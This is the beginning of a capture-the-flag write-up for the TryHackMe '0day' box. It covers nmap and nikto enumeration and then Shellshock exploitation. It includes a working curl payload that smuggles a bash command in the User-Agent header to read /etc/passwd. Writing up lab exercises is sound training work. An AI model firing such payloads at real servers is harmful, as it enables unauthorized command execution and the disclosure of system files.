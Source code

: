 # Introduction

0day is a medium box on the TryHackMe platform. The box involves exploiting a website with shellshock and exploiting an outdated linux kernel

Scanning

To start our enumeration of the box we do an initial nmap scan. Using -sC for default scripts, -sV for version enumeration and -oA to output the results 

![2025-04-03_04-09](https://github.com/user-attachments/assets/3d03499b-4e54-43b1-8128-23829df30532)

The results of this nmap show 2 ports open:

port 80 which is a HTTP server.
Port 22 which is a SSH service

Our next step is to look into the HTTP server. Navigating there in the browser shows a site which looks like Ryan's portfolio page.
![image](https://github.com/user-attachments/assets/f2521554-1f6d-47f6-9d1a-d328cb8e40c7)

let’s enumerate this website and see what we can find

![image](https://github.com/user-attachments/assets/6225c5e3-abdf-4513-9802-4d4cd97afde6)

![image](https://github.com/user-attachments/assets/2fa14f5f-779b-4bb8-ab73-516e74ce3e87)

sudo nikto -h {target_ip}

![image](https://github.com/user-attachments/assets/0506f4cf-4705-4f83-827a-216d20bd8892)

Let’s do some research on the Shellshock vulnerability we identified earlier. After a quick Google search, we’ve come across an exploit for it on GitHub.

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://localhost:8080/cgi-bin/vulnerable

![image](https://github.com/user-attachments/assets/43a6d242-ae4b-4849-9c55-c615d74d623f)



